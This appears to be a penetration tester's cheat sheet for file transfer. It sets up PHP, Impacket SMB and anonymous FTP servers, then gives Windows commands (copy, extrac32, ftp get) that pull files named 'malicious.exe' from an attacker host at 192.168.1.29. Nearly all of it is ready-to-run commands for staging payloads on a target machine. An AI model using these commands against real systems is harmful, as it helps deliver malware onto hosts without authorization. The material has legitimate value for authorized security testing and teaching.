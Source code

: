 # Run a basic PHP http serve
```
php -S 0.0.0.0:80					r
```

# SMB share:
## setup SMB sharefrom Impacket:
/opt/impacket/examples:
```
python smbserver.py ROPNOP /root/shells
```

## From Windows:
```
net view \\192.168.1.29
dir \\192.168.1.29\folder
copy \\192.168.1.29\folder\mailicious.exe
```

### OR:
```
extrac32 /Y /C \\webdavserver\share\test.txt C:\folder\test.txt
```

# Setup FTP server:
## install and start FTP server:
```
apt-get install python-pyftpdlib
python -m pyftpdlib -p 21
python -m pyftpdlib -p 21 -w

```
## create anonymous ftp with write access to your filesystem.
```
python -m pyftpdlib
python -m pyftpdlib --help
python3 -m pyftpdlib.ftpserver
```

## Download file from Windows:
```
C:\>ftp 192.168.1.29
username: anonymous
password: whatever
ftp> binary
ftp> get malicious.exe
ftp> bye
```
